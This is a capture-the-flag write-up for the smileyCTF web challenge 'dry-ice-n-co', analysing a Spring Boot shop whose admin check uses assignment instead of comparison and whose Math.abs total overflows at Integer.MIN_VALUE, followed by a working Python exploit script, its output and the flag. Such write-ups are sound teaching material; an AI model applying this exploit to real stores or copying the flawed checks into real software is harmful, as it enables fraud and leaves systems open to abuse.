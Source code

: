 ```yaml
---
title: Web - dry-ice-n-co
---
```


## Introduction

smileyCTF

**Category:** Web Exploitation

**Write-up date:** 18/06/2025

**Question:**
Hi. I'm opening up my shop for you to buy my favorite thing in the world. DRY ICE!!!

Use coupon code `SMILEICE` at checkout for 20% off! That's coupon code `SMILEICE` at checkout for 20% off!

**Point:** 138 points

## Source code analysis

First impression, this chall source code is written from java, springboot application for exact. This application is
written follow MVC design pattern so it kinna easy for us to read the source code.

Looking at the code, we can see that the requirement for the flag is in `ShopController.java`

```java
private final List<DryIceProduct> availableProducts = new ArrayList<>(Arrays.asList(
        new DryIceProduct("flag", 1000000, "you should buy one of these (if you can afford it)"),
        new DryIceProduct("Small Block", 16, "5kg block of dry ice, perfect for small coolers"),
        new DryIceProduct("Medium Block", 30, "10kg block of dry ice, ideal for medium-sized coolers"),
        new DryIceProduct("Large Block", 50, "20kg block of dry ice, great for large coolers"),
        new DryIceProduct("Pellet Pack", 20, "5kg of dry ice pellets, perfect for shipping")
));
```

But when the user start, the application give us 100$. So somehow we have to buy a 1000000\$ item with 100\$

```java
public ShoppingCart() {
    this.items = new ArrayList<>();
    this.balance = 100; // Initial balance of $100
    this.couponCode = null;
}
```

Then how can we do this chall, thanks to some logic bug in route `/admin/add-product`, we could add something we want
into the website without admin permission.

```java

@PostMapping("/admin/add-product")
public String addProduct(@RequestParam String name,
                         @RequestParam int price,
                         @RequestParam String description,
                         HttpSession session) {
    User user = (User) session.getAttribute("user");
    if ((user.admin = true) && user != null && name != "flag") {
        availableProducts.add(new DryIceProduct(name, price, description));
    }
    return "redirect:/";
}
```

Look carefully, in the if statement, the `user.admin` is assignment, not comparison, meaning the website are not check
for admin, just checking for other one, therefor making us able to add product.

We can assign some negative number, hopping when buy the balance will go up. But when add negative item into the cart,
they suddenly turn into positive number.

![img.png](../../../../assets/dry-ice-n-co/img.png)

In the `getTotal` function, to avoid any negative number the application get te total then use `Math.abs(total)` to get
the positive value of the cart.

```java
public int getTotal() {
    int total = items.stream()
            .mapToInt(CartItem::getTotal)
            .sum();
    total = Math.abs(total);

    if (isCouponValid()) {
        total = (int) (total * (100.0 - (double) DISCOUNT_PERCENTAGE) / 100.0);
    }

    return total;
}
```

But `Math.abs()` have a hidden secret that it will take any 2's complement of the num as the positive value meaning that
when we use `Integer.MIN_VALUE`, the abs will be `Integer.MIN_VALUE` as well.

```java
public static int abs(int a) {
    return a < 0 ? -a : a;
}
```

But when we add using the min value, the balance will overflow result in our balance will become `Integer.MIN_VALUE`. So
using the coupon code earlier, we can reduce the total of the cart, effectively add some cash into our balance.

![img.png](../../../../assets/dry-ice-n-co/bal.png)

Using that balance, we can easily buy our flag.

## Exploit

```python
import random
import re

import requests

URL = "https://web-dry-ice-n-co-gkyz1s6q.smiley.cat"


def main():
    product_name = "Test Product" + str(random.randint(1, 10000))
    session = requests.Session()
    print("[+] Get new JSESSIONID.")
    session.get(URL)
    print("[+] Add new item that have Integer.MIN_VALUE price.")
    session.post(f"{URL}/admin/add-product", {
        "name": product_name,
        "description": "Test Product",
        "price": -2147483648,
    })
    print("[+] Add new item that have Integer.MAX_VALUE price.")
    session.post(f"{URL}/add", {
        "productName": product_name,
        "quantity": 1
    })
    print("[+] Apply coupon to avoid integer overflow.")
    session.post(f"{URL}/apply-coupon", {
        "couponCode": "SMILEICE"
    })
    print("[+] Buying negative item to add balance into account.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Balance:", re.findall(r"(?<=<h3 class=\"text-center\">\$<span>)\d+", req.text)[0])
    print("[+] Add flag into cart.")
    session.post(f"{URL}/add", {
        "productName": "flag",
        "quantity": 1
    })
    print("[+] Buying flag.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Flag:", re.findall(r"(?<=<pre>)[^<]+", req.text)[0])

if __name__ == "__main__":
    main()
```

Output

```
[+] Get new JSESSIONID.
[+] Add new item that have Integer.MIN_VALUE price.
[+] Add new item that have Integer.MAX_VALUE price.
[+] Apply coupon to avoid integer overflow.
[+] Buying negative item to add balance into account.
[+] Balance: 1717987018
[+] Add flag into cart.
[+] Buying flag.
[+] Flag: .;,;.{this_is_not_a_political_statement_btw}
```

**FLAG:** .;,;.{this_is_not_a_political_statement_btw}
